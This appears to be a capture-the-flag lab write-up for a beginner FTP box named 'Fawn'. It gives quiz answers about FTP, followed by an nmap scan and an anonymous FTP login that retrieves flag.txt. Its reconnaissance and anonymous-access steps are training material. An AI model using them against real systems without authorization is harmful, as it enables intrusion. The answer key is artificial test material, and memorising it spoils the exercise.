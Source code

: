 # Fawn

> 目标 IP: 11.11.11.12

## TAKS 1

> What does the 3-letter acronym FTP stand for?

- File Transfer Protocol

## TASK 2

> Which port does the FTP service listen on usually?

- 21

## TASK 3

> FTP sends data in the clear, without any encryption. What acronym is used for a later protocol designed to provide similar functionality to FTP but securely, as an extension of the SSH protocol?

- SFTP

## TASK 4

> What is the command we can use to send an ICMP echo request to test our connection to the target?

- ping

## TASK 5

> From your scans, what version is FTP running on the target?

- vsftpd 3.0.3

## TAKS 6

> From your scans, what OS type is running on the target?

- Unix

## TAKS 7

> What is the command we need to run in order to display the 'ftp' client help menu?

- ftp -h

## TAKS 8

> What is username that is used over FTP when you want to log in without having an account?

- anonymous

## TAKS 9

> What is the response code we get for the FTP message 'Login successful'?

- 230

## TAKS 10

> There are a couple of commands we can use to list the files and directories available on the FTP server. One is dir. What is the other that is a common way to list files on a Linux system.

- ls

## TAKS 11

> What is the command used to download the file we found on the FTP server?

- get

## Submit Flag

```shell
$ nmap -sV -Pn 11.11.11.12
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

$ ftp 11.11.11.12
Connected to 11.11.11.12.
220 (vsFTPd 3.0.3)
Name (11.11.11.12:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||61039|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||24987|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |***************|    32        0.11 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:01 (0.01 KiB/s)
ftp> exit
221 Goodbye.
```
